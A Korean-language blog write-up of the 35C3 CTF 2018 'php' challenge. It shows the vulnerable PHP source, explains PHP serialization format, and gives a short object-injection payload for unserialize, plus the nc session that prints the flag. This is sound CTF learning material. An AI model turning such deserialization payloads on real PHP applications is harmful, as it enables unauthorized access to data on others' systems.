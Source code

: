 ```yaml
---
layout: post
title: ! "[35C3 CTF 2018] php Write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - 35C3CTF
  - mingzzi
---
```


어제 ctftime을 돌아보다가 `35C3 CTF`가 하고 있길래 한 문제를 풀어보았다.  

원래 몇개 더 풀어보고 싶었는데 어떻게 푸는건지를 모르겠다.  

아직 Write up이 안올라왔던데, 나중에 올라오면 찾아봐야겠다.  

<!--more-->

일단 `php` 문제 정보는 다음과 같다.  

```
PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.

Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: nc 35.242.207.13 1
```

파일을 다운받아 압축을 풀어보면 `php.php` 파일을 확인할 수 있다.  

`php.php`의 내용은 다음과 같다.  

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

`STDIN`으로 입력 값을 받아 `$line`에 저장한 후, 이를 `unserialize` 함수를 통해 `unserialize` 한 값을 `$a`에 저장한다.  

마지막으로 `$a`를 출력 해 준다.  

그런데 위를 살펴보면 `B`라는 `class`가 선언되어 있고, `__destruct` 함수 안에 `$flag`함수를 출력 해 준다.  

아무래도 `unserialize` 함수의 취약점(?)을 가지고 푸는 문제인 것 같아 일단 `unserialize`함수가 무엇인지를 찾아보았다.  

> serialize()  
>> PHP 변수들을 string으로 만들어 주는 함수  
>> ex) serialize(array(3, 4, 5, 6)) => a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}  
>> a:4 => 배열의 크기는 4  
>> object 일 경우 O:object_name_length:"object_name":object_size:  
>> ex) O:8:"stdclass":8:  
>> i:0;i:3 => 배열 첫 번째 인덱스의 값은 3  
>> int가 아닌 string 형태 일 경우 s:string_length:"string";    
>> ex) s:3:"one";

> unserialize()  
>> serialize 된 변수를 PHP 값으로 변환  
>> ex) unserialize(a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}) => Array([0] => 3 [1] => 4 [2] => 5 [3] => 6)  

그런데 찾아보다 보니, 아래와 같은 블로그를 찾을 수 있었다.  

[http://qkqhxla1.tistory.com/444](http://qkqhxla1.tistory.com/444)

`php object injection`에 대한 설명인데, 취약점 exploit을 위한 아래의 두 가지 조건이 `php` 문제와 정확히 일치한다.  

1. 어플리케이션은 php의 매직 메소드(__wakeup이나 destrust 같은)를 구현한 클래스를 가지고 있어야 한다.  
2. 공격중의 모든 클래스들은 취약한 unserialize()가 호출되기 전에 선언되어야 한다.  

그래서 아래와 같이 입력 해 보았다.  

```
O:1:"B":1{s:4:"flag";s:5:"/flag";}
```

그러면 `B` 클래스에 `flag`라는 이름으로 `/flag`를 할당하고 `__destruct` 메소드를 호출하며 `echo $flag`를 실행 할 것이다.  

문제에 접속하여 위와 같이 입력 했더니 flag를 읽을 수 있었다!  

```
$ nc 35.242.207.13 1
O:1:"B":1{s:4:"flag";s:5:"/flag";}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

그런데 이 문제 다시 생각 해 보니 어찌됬든 `__destruct` 메소드만 호출하도록 하면 되서 굳이 내가 한 방식 말고 `O:1:"B":1:{}` 이런식으로 해도 문제가 풀릴 것 같다.  

근데 뭐 풀었으니 됬다 ㅎㅎㅎ  

```
35C3_php_is_fun_php_is_fun
```